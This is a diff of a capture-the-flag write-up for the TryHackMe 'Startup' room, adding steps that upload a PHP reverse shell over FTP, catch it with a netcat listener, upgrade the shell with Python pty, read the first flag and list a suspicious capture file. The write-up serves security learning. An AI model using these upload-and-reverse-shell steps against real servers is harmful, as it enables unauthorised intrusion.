

Before and after one commit to Aryt3/writeups, a Markdown page: tryhackme/Startup/readme.md, the part around the change. Shown at 90% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/tryhackme/Startup/readme.md
+++ b/tryhackme/Startup/readme.md
@@ -171,3 +171,56 @@ curl http://$ip/files/ftp/
 
 It seems like we are able to upload files via ftp and read them in the browser. <br/>
 This normally indicates that a reverse shell is possible.
+```sh
+ftp> put rev_shell.php
+local: rev_shell.php remote: rev_shell.php
+229 Entering Extended Passive Mode (|||46398|)
+150 Ok to send data.
+100% |******************************************************************************************************************************************************************************************************************|  5489       84.43 MiB/s    00:00 ETA226 Transfer complete.
+5489 bytes sent in 00:00 (38.34 KiB/s)
+```
+
+After uploading this and opening a netcat listener we are able to get a reverse shell:
+```sh
+nc -lnvp 9001
+listening on [any] 9001 ...
+connect to [10.18.20.25] from (UNKNOWN) [10.10.76.230] 33016
+Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
+ 12:39:50 up  1:13,  0 users,  load average: 0.00, 0.00, 0.00
+USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+/bin/sh: 0: can't access tty; job control turned off
+$ export TERM=xterm
+$ python -c 'import pty;pty.spawn("/bin/bash")'
+www-data@startup:/$ ls
+ls
+bin   home            lib         mnt         root  srv  vagrant
+boot  incidents       lib64       opt         run   sys  var
+dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
+etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
+```
+
+Here we can read `recipe.txt`:
+```sh
+www-data@startup:/$ cat recipe.txt
+cat recipe.txt
+Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
+```
+
+First Flag: `love`.
+
+The next Flag is supposed to be a User Flag, therefore let's try to become a user
+
+```sh
+www-data@startup:/$ ls /home/
+lennie
+www-data@startup:/$ cd /home/lennie
+bash: cd: /home/lennie: Permission denied
+```
+
+This doesn't get us far. There is also a suspicious direcotry:
+```sh
+www-data@startup:/$ ls incidents
+ls incidents
+suspicious.pcapng
+```
````
